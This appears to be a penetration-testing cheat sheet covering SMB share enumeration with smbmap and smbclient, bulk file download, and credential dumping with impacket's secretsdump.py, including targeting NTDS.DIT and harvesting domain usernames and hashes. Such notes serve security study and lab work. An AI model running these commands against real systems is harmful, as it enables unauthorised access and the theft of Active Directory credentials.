 --------------------------------------------------------------------------

## View/Modify Files

- Recursively list all files in share

    - All shares
      
          smbmap -H $TARGET_IP
      
    - Specific share
      
          smbmap -r <REMOTE_PATH> -H $TARGET_IP

- Interesting files:

    - NTDS.DIT
        - Contains local Active Directory database where all directories are stored.
        - Contains all Active Directory credentials.
        - Often obtainable if SMB vulnerabilities are present on the system.

- Upload / Download specific files

      smbmap -H $TARGET_IP --download '<REMOTE_PATH>'              # option 1
      smbmap -H $TARGET_IP --upload '<LOCAL_PATH>' '<REMOTE_PATH>' # option 2
      smb: \> get <TARGET_FILE>                                    # option 3

- Recursively download all files

      smbclient //$TARGET_IP/Replication

  ```
  smb: \> recurse ON\
  smb: \> prompt OFF\
  smb: \> mget *
  ```

- Other Tools

  [smbmap](../Tools/smbmap.md)

--------------------------------------------------------------------------

## Get secrets (hashes, plaintext credentials, keys, etc)

- impacket

  /usr/share/doc/python3-impacket/examples/secretsdump.py
  https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b 

      python3 secretsdump.py [[domain/]username[:password]@]<targetname or address>

  or

      python3 secretsdump.py LOCAL

  What we would be looking for is a misconfigured service that was set as domain admin. From here, we could use those credentials and Impacket’s **crackmapexec.py** script with the option **rid-brute** or **GetADUsers.py** script to query the Domain Controller and obtain all the usernames and hashes on the network. We would then run the script against the list of usernames/hashes to grab as many credentials as possible. 
